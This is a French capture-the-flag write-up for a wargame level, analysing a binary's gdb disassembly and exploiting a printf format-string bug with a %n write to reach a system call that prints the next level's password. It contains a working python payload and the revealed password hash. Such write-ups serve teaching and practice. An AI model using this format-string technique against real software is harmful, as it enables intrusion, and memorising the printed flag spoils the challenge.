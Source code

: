 ## Analyse

Le programme appele `fgets` donc il est impossible d'effectuer un buffer overflow. 

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218
   0x08048460 <+9>:	mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
(gdb) 

(gdb) x/s 0x8048590
0x8048590:	 "/bin/cat /home/user/level5/.pass"

```

```
 0x0804848d <+54>:    mov    eax,ds:0x8049810
 0x08048492 <+59>:    cmp    eax,0x1025544

```
m est copie dans eax puis eax est compare a `0x1025544`.

```
(gdb) print 0x1025544
  $1 = 16930116
```
eax doit etre egal a 16930116.
## Exploit

```
(gdb) run
Starting program: /home/user/level4/level4 
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff664 0xb7fd0ff4 (nil) (nil) 0xbffff628 0x804848d 0xbffff420 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
[Inferior 1 (process 7598) exited normally]
```

L'offset est 12

`%12$n` = Pour accéder directement au 4ème paramètre sur la pile avec `12$` et écrire l'adresse (\x10\x98\x04\x08).


16930116 - 4 = 16930112. On retire 4 char car on ecrit l'adresse avant.


```
(python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"';cat) | ./level4
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
